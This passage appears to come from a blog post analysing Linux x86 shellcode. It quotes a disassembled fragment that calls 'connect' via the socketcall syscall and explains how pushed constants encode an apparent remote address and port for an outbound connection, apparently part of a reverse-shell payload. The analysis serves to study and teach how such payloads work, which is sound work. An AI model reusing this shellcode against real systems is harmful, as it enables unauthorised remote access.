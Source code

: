 ![Figure 6: The synopsis for the socket function. ](https://raw.githubusercontent.com/darksys0x/darksys0x.github.io/master/_posts/imgs/Tmp_txt/Untitled%206.png)

Figure 6: The synopsis for the socket function. 


---

### Call to “connect" function via socketcall syscall

```wasm
**int     80h**
xchg    eax, edi
pop     ebx
push    2E9D1C95h
push    50000002h
mov     ecx, esp
push    66h ; 'f'
pop     eax
push    eax
push    ecx
push    edi
mov     ecx, esp
inc     ebx
**int     80h**
test    eax, eax
jns     short loc_804809C
```

- When the the first syscall `int  80h` returns, the result will be saved in the *eax *****register. Since it calls the C function “socket", the result is the socket.
- The second instruction `xchg  eax, edi` will swap the value of *eax* with the *edi *****register because the *eax* register is needed for the syscall number in second syscall `int 80h` . Now, the *edi *****register will hold the socket.
- In Figure 5, the *ESP* register is pointing to the value **2**, so the `pop  ebx` will load the value **2** from top of the stack to the *ebx* register and increment the stack pointer by 4, so now the *ESP* register will point to the value **1** on the stack. It is important to note, the *ebx* register will hold the first argument for the syscall.
- `push 2E9D1C95h` and `push 50000002h` together will push 8 bytes on the top of stack. The pushed values look like constants, it is actually an object that will be used by the syscall.
- In the previous instructions, the object was pushed on the stack, so the *ESP* register points to the object now. The `mov ecx, esp` instruction will move the address of the object from ESP to *ecx*. As the *ebx* register will hold the first argument, similarly the *ecx* register will hold the second argument for the syscall.
- `push    66h` will push the value `102` on top of the stack (decrements the value of *ESP* by 4) and the next instruction `pop eax` will load this value to *eax* and increment the *ESP* register by 4. refer to Figure 7. The value of *eax* register is now **102**, and this is a syscall number meaning “socketcall", which will call a C function depending on the value in the *ebx* register.
